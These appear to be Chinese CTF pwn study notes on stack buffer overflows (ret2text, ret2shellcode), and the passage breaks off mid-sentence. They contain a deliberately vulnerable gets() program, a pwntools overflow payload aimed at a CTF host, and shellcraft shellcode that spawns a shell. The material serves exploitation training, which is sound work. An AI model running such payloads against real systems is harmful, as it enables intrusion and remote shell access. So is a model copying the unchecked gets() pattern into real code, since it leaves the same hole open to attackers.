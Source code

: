 # ret2text

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

gets() 函数的缺陷：

​	它不提供对缓冲区大小的检查，因此容易导致缓冲区溢出，这是一种常见的安全漏洞。攻击者可以利用这种漏洞来执行恶意代码或破坏程序的行为。gets() 函数不会在读取到换行符之前停止读取，这可能导致它读取超出目标缓冲区大小的数据，造成缓冲区溢出。

read() 函数的缺陷：

​	read() 函数通常用于低级I/O操作，它不会对输入数据进行解释或处理，因此可能导致缓冲区溢出或其他安全问题。就像 gets() 一样，如果使用不当，read() 也可能导致缓冲区溢出。read() 函数需要手动指定要读取的字节数，如果不小心指定了一个超过目标缓冲区大小的字节数，也可能导致缓冲区溢出。

## 简单栈溢出编写

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = b'A'*8 + p64(0x12345678)
p.sendline(payload)
p.interactive()
```

# ret2shellcode

在 pwntools 中，shellcraft 模块用于生成各种类型的 shellcode，例如反弹 shell、执行系统调用等。shellcraft.sh 脚本通常是 pwntools 的一部分，用于生成 shellcode 的脚本，它包含了一系列的 shellcode 模板，可以根据需要生成对应的 shellcode，并且可以方便地嵌入到漏洞利用脚本中。

## shellcraft模块生成

```python
shellcraft.sh()
p.sendline(asm(shellcraft.sh()))
```

一般来说，靶机基本都开启了ALSR，所以不会对栈写入shellcode，
